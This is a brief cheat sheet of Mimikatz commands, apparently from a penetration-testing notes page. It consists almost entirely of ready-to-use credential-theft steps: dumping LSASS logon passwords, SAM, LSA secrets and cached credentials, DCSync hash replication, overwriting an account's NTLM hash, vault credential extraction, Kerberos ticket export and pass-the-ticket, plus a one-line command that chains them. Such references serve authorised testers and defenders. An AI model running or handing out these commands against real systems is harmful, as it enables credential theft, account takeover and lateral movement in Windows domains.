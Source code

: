 # Mimikatz

#### General

```
privilege::debug
log
log customlogfilename.log
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

#### DCSync

```
mimikatz "lsadump::dcsync /user:targetUser /domain:targetDomain" exit
```

#### Credentials

<pre class="language-powershell"><code class="lang-powershell"><strong>sekurlsa::logonpasswords
</strong>sekurlsa::logonPasswords full
sekurlsa::minidump lsass.dmp

# lsadump
lsadump::lsa /inject
lsadump::sam
lsadump::secrets
lsadump::cache

# Set NTLM hash
lsadump::setntlm /user:targetUser /ntlm:newNtlmHash

# Vault
token::elevate
vault::cred
vault::cred /patch
vault::list

# oneliner
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
</code></pre>

#### Kerberos

```
kerberos::list /export
kerberos::ptt c:\ticket.kirbi
```



